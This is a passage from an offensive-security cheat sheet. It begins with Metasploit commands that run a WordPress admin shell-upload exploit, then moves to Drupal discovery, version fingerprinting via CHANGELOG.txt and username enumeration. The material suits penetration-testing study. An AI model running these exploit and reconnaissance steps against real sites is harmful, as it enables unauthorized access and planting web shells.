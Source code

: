 ```bash
msf exploit(wp_admin_shell_upload) > set PASSWORD admin
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit
```

## Drupal

## Discovery

* Check **meta**

```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```

* **Node**: Drupal **indexes its content using nodes**. A node can **hold anything** such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.

```bash
curl drupal-site.com/node/1
```

## Enumeration

Drupal supports **three types of users** by default:

1. **`Administrator`**: This user has complete control over the Drupal website.
2. **`Authenticated User`**: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
3. **`Anonymous`**: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

### Version

* Check `/CHANGELOG.txt`

```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

{% hint style="info" %}
Newer installs of Drupal by default block access to the `CHANGELOG.txt` and `README.txt` files.
{% endhint %}

### Username enumeration

#### Register

In _/user/register_ just try to create a username and if the name is already taken it will be notified:
